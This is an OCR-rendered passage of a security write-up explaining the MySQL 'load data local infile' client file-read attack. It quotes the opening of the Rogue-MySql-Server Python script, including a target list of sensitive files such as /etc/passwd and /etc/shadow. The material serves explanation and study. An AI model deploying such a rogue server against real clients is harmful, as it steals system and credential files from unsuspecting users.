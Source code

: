````sql
This vulnerability exploitation method is based on the `load data local infile` method to read files. Simply put, when the client executes the `load data local` statement, it will first send a request to the `MySQL` server. The server receives the request and returns the file address that needs to be read. The client receives the address and reads it, and then sends the read content to the server. For specific attack process details, please refer to: [CSS-T | Mysql Client arbitrary file reading attack chain expansion] (https://paper.seebug.org/1112/)

Simple malicious server code, excerpted from [Rogue-MySql-Server](https://github.com/Gifts/Rogue-MySql-Server). This process requires the client to allow the use of `load data local`, and this information can be found in the data packet that the client tries to connect to the server:

```python
#!/usr/bin/env python
#coding: utf8

import socket
import asyncore
import asynchat
import struct
import random
import logging
import logging.handlers

PORT = 3306
log = logging.getLogger(__name__)
log.setLevel(logging.DEBUG)
tmp_format = logging.handlers.WatchedFileHandler('mysql.log', 'ab')
tmp_format.setFormatter(logging.Formatter("%(asctime)s:%(levelname)s:%(message)s"))
log.addHandler(
    tmp_format
)

filelist = (
# r'c:\boot.ini',
    r'c:\windows\win.ini',
# r'c:\windows\system32\drivers\etc\hosts',
# '/etc/passwd',
# '/etc/shadow',
)

#=================================================================
#=======No need to change after this lines======
#=================================================================

__author__ = 'Gifts'

def daemonize():
    import os, warnings
    if os.name != 'posix':
        warnings.warn('Cant create daemon on non-posix system')
        Return

    if os.fork(): os._exit(0)
    os.setsid()
    if os.fork(): os._exit(0)
    os.umask(0o022)
    null=os.open('/dev/null', os.O_RDWR)
    for i in xrange(3):
        try:
            os.dup2(null, i)
        except OSError as e:
            if e.errno != 9: raise
    os.close(null)
````